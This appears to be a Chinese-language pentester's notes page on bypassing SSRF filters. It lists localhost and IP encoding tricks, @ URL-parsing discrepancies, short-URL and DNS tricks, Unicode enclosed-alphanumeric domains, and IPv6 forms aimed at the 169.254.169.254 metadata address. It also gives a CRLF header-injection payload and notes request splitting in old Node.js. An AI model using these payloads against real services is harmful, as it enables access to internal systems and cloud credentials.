

- # 绕过
	- `127.0.0.1` 和 `localhost`
		- `127.0.1.1`
		- `127.1.0.1`
		- `10.10.1.1`
		- `127.1`
		- `0`
			- `0`在linux系统中会解析成`127.0.0.1`在windows中解析成`0.0.0.0`
		- 用A记录为`127.0.0.1`的域名
		- t.cn短网址
			- [生成](https://www.helingqi.com/url.php)
		- 302跳转
		- `。`代替`.`
-
- # SSRF绕过方式
- 1、限制为http://www.xxx.com 域名时（利用@）
	- 可以尝试采用http基本身份认证的方式绕过
	    如：http://www.aaa.com@www.bbb.com@www.ccc.com，在对@解析域名中，不同的处理函数存在处理差异
	    在PHP的parse_url中会识别www.ccc.com，而libcurl则识别为www.bbb.com。
- 2.采用短网址绕过
	- 比如百度短地址https://dwz.cn/
- 3.采用进制转换
	- 127.0.0.1八进制：0177.0.0.1。十六进制：0x7f.0.0.1。十进制：2130706433.
- 4.利用特殊域名
	- 原理是DNS解析。xip.io可以指向任意域名，即
	    127.0.0.1.xip.io，可解析为127.0.0.1
	    (xip.io 现在好像用不了了，可以找找其他的)
- 5.利用[::]
	- 可以利用[::]来绕过localhost
	    http://169.254.169.254>>http://[::169.254.169.254]
- 6.利用句号
	- 127。0。0。1 >>> 127.0.0.1
- 7、CRLF 编码绕过
	- %0d->0x0d->\r回车
	    %0a->0x0a->\n换行
	    进行HTTP头部注入
	- example.com/?url=http://eval.com%0d%0aHOST:fuzz.com%0d%0a
- 8.利用封闭的字母数字
	- 利用Enclosed alphanumerics
	    ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ >>> example.com
	    http://169.254.169.254>>>http://[::①⑥⑨｡②⑤④｡⑯⑨｡②⑤④]
	    List:
	    ① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳
	    ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇
	    ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛
	    ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵
	    Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ
	    ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ
	    ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴
	    ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
- 二、常见限制
	- 1.限制为http://www.xxx.com 域名
		- 采用http基本身份认证的方式绕过，即@
		    http://www.xxx.com@www.xxc.com
	- 2.限制请求IP不为内网地址
	- 当不允许ip为内网地址时：
	    （1）采取短网址绕过
	    （2）采取特殊域名
	    （3）采取进制转换
	- 3.限制请求只为http协议
	- （1）采取302跳转
	    （2）采取短地址
- # Nodejs 在HTTP请求中伪造HTTP请求
  id:: 63c7fc34-474b-48bd-a4f8-5c5a68188c89
	- 在旧版的Nodejs中`http.get(url, f)`不会判断输入url是否合法
	- 如果让`http.get("http://127.0.0.1/?p=" + p, f)`中的p为红色的部分则会伪造多个HTTP请求
	- 